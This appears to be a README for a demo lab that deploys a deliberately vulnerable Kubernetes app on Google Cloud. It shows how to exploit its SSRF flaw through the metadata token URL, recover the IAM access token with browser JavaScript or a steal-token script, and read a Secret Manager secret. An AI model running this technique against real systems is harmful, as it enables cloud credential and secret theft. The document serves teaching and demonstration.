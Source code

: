 # SSRF Demo Application

This is a simple demo application that demonstrates how to exploit a Server-Side Request Forgery (SSRF) vulnerability to retrieve an IAM service account access token from the Google Cloud Metadata API, with which a secret can be accessed from Google Cloud Secret Manager.


## Setup

First, we have to create a `.env` file based on the provided `.env.example` file. To do so, copy the `.env.example` file to a new `.env` file:

```bash
cp .env.example .env
```

Next, replace the placeholder values in the `.env` file with your own values and source the file to set the environment variables:

```bash
source .env
```

After that, we can create the Kubernetes service account and deploy the vulnerable application:

```bash
kubectl apply -f deploy.yaml
```

Once the application is deployed, we can create the Google Cloud Secret Manager secret and the IAM service account with the necessary permissions to access the secret using terraform:

```bash
cd terraform
terraform init
terraform apply
cd ..
```

Now everything is set up so we can start exploiting the SSRF vulnerability.


## Token Theft

We can make use of the vulnerable application either by navigating the website in the browser or by using our provided shell script.

### Web Interface

To access the web interface we can access the application using the domain specified in the `USER_SERVICE_DOMAIN` environment variable or by port-forwarding the service to our local machine:

```bash
kubectl port-forward -n users service/user-service 8080:80
```

Once we have opened the web interface, we can log into the account using the following credentials:

- Username: `foo`
- Password: `bar`

After logging in, we are presented with the users profile page. By clicking on the profile picture, we are provided with a prompt to either select a new profile image locally or by providing a URL pointing to an image. Here we can enter the URL pointing to the metadata API to retrieve the access token: [http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token](http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token)

When we now click on the `Upload` button, the user's profile picture is updated, but cannot be properly displayed as the image data is now set to the response of the access token request. To retrieve the access token, we can take a look at the image source opening the developer console and executing the following JavaScript code:

```javascript
const imageSrc = document.getElementById('profile-picture').src; imageSrc
``` 

We can see, that the image source is set to a data URL containing some base64 encoded data. We can use the following code to decode the base64 data:

```javascript
response = atob(imageSrc.split(',')[1]); response
```

The result is a JSON object containing the access token. To extract the token execute:

```javascript
JSON.parse(response)['access_token']
```

### Shell Script

With the [steal-token.sh](scripts/steal-token.sh) script, we can extract the access token by sending HTTP requests to the user service. To use the script, provide the URL of the user service as an argument:

```bash
scripts/steal-token.sh <user-service-url>
```

For example, if you have port-forwarded the user service to your local machine, you can use the following command:

```bash
scripts/steal-token.sh http://localhost:8080
```


## Secret Access

With the access token, we can now access the secret stored in Google Cloud Secret Manager. To do so, we can use the [access-secret.sh](scripts/access-secret.sh) script. The script requires the access token as an argument:

```bash
scripts/access-secret.sh <access-token>
```

The result is the value of the secret stored in Google Cloud Secret Manager.